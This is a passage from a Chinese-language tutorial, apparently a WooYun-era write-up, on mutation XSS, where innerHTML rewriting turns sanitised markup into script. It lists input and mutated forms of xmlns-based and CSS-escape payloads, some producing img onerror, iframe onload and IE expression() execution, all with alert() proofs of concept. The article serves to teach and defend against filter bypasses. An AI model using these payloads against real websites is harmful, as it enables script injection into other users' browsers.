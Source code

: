 接着猥琐流很快就会想到下面的代码，可以看出，成功变成了含有onerror=alert(1) 的img标签。

```
输入形式：

<pkav xmlns="urn:img src=1 onerror=alert(1)//">123

突变形式：

<img src=1 onerror=alert(1)//:pkav xmlns="urn:img src=1 onerror=alert(1)//">123</img src=1 onerror=alert(1)//:pkav>

```

扩展：细心的同学也许会注意到，我们的代码中，并未闭合标签。那么一个经常碰到的场景是：XSS过滤器会在解析HTML代码时，自动补全未闭合的标签。这样一来，就会出现下面的场景：

```
输入形式：

<pkav xmlns="urn:wooyun">123

过滤后形式：

<pkav xmlns="urn:wooyun">123</pkav>

突变后形式：

<?XML:NAMESPACE PREFIX = [default] urn:wooyun NS = "urn:wooyun" /><pkav xmlns="urn:wooyun">123</pkav>

```

聪明的我们应该不难想到应对办法，这应该也就是[http://html5sec.org/?xmlns#97](http://html5sec.org/?xmlns#97)中所描述问题的发现过程（由Silin于2011年发现）。

```
输入形式：

<pkav xmlns="><iframe onload=alert(1)">123</pkav>

突变后形式：

<?XML:NAMESPACE PREFIX = [default] ><iframe onload=alert(1) NS = "><iframe onload=alert(1)" /><pkav xmlns="><iframe onload=alert(1)">123</pkav>

```

0x04 CSS中反斜线转义导致的mXSS
---------------------

* * *

在CSS中，允许用\来对字符进行转义，例如：`property: 'v\61 lue'`表示`property:'value'`，其中61是字母a的ascii码（16进制）。\后也可以接unicode，例如：\20AC 表示 € 。正常情况下，这种转义不会有问题。但是碰上innerHTML后，一些奇妙的事情就发生了。看以下代码。

```
输入形式：

<p style="font-family:'ar\27 \3bx\3a expression\28xss\28\29\29\3bial';"></p>

突变形式：

<P style="FONT-FAMILY: 'ar';x:expression(xss());ial'"></P>

```
